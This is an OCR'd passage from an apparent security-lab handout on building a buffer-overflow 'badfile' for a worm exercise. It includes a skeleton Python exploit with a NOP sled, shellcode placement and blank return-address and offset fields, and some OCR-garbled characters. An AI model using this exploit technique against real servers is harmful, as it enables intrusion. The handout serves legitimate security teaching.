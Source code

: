 ### 4.2 Creating the badfile

Let’s first send a benign message to our target server. We will see the following messages printed out by the
target container (the actual messages you see may be different).

// On the host machine
$ echo hello | nc -w2 10.151.0.71 9090

// Messages printed out by the container
as151h-host_0-10.151.0.71 | Starting stack
as151h-host_0-10.151.0.71 | Input size: 6
as151h-host_0-10.151.0.71 | Frame Pointer (ebp) inside bof(): 0xffffd5f8 P
as151h-host_0-10.151.0.71 | Buffer’s address inside bof(): 0xffffd588 P
as151h-host_0-10.151.0.71 | ==== Returned Properly ====

For the sake of simplicity, we let the server print out some of its internal parameters (see lines marked
byP). Students are allowed to use these parameters when constructing their attacks. In particular, they need
to modify Lines¿and¡insidecreateBadfile().

def createBadfile():
content = bytearray(0x90 for i in range(500))
##################################################################
# Put the shellcode at the end
content[500-len(shellcode):] = shellcode

```
ret = 0x00 ¿
offset = 0x00 ¡
```
```
content[offset:offset + 4] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
```
```
# Save the binary code to file
with open(’badfile’, ’wb’) as f:
f.write(content)
```
To test the attack, simply run the attack programworm.py. It will generate the badfile, and then send
its content to the target server. If you see a smiley face printed out on the target machine, that means that
you are attack has succeeded, and your injected code has been executed.

$ chmod +x worm.py
$ ./worm.py

Lab task. Please modify the provided skeleton codeworm.py, launch the attack against the first target,
and demonstrate that your attack is successful.
